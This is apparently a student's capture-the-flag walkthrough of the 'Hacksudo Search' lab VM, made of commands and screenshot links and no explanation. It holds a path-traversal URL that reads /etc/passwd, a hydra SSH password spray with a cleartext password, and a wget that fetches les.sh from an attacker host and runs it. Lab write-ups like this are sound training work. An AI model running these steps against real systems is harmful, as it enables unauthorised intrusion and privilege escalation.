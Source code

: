 ﻿# Hacksudo Search 192.168.56.112
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.001.png)

sudo nmap -p- -sV -O 192.168.56.112 -oN host

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.002.png)

gobuster dir -u 192.168.56.112 -w /usr/share/dirb/wordlists/big.txt -o http\_enum -x php,html,js,txt

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.003.png)



gobuster dir -u 192.168.56.112/account -w /usr/share/dirb/wordlists/big.txt -o http\_enum -x php,html,js,txt

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.004.png)

nikto --host <http://192.168.56.112>

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.005.png)

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.006.png)



wfuzz -u 192.168.56.112/search1.php?FUZZ=contact.php -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hl 137

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.007.png)

<http://192.168.56.112/search1.php?me=../../../../../../../etc/passwd>

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.008.png)

cat passwd | grep /bin/bash

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.009.png)

hydra -L Documents/hacksudo/users.txt -p MyD4dSuperH3r0! ssh://192.168.56.112 -m ssh

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.010.png)

cat user.txt

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.011.png)



wget 192.168.56.101/les.sh

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.012.png)

./les.sh

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.013.png)

![A screenshot of a computer

Description automatically generated with medium confidence](Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.014.png)

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.015.png)

cat root.txt

![](hacksudo_search_steps/Aspose.Words.11ea79bf-198c-44ea-b54f-90b26243ab45.016.png)
